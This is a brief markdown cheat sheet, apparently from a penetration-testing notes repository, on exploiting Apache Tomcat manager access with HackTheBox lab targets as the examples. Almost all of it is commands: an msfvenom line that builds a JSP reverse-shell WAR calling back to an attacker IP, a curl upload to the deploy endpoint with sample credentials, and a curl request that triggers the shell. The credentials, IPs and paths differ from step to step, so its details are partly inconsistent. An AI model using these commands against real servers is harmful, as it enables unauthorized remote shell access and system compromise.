 # Exploiting Tomcat Virtual Host Manager

With an authenticated access to Tomcat Virtual Host Manager, available at the path `/host-manager/`, we can upload a malicious WAR file to get a reverse shell access.

1. Generate attack payload

        msfvenom -p java/jsp_shell_reverse_tcp LHOST=<hackthebox_IP> LPORT=4444 -f war > shell.war

2. Upload the generated WAR file

        curl -u 'tomcat':'s3cret' -T shell.war 'http://10.10.10.4:8080/manager/text/deploy?path=/rev_shell'

3. Execute the payload to get a reverse shell

        curl -u 'tomcat':'password123' http://10.10.10.194:8080/rev_shell/

## References

* https://www.geeksforgeeks.org/tabby-hack-the-box-walkthrough-for-user-flag/
* https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00
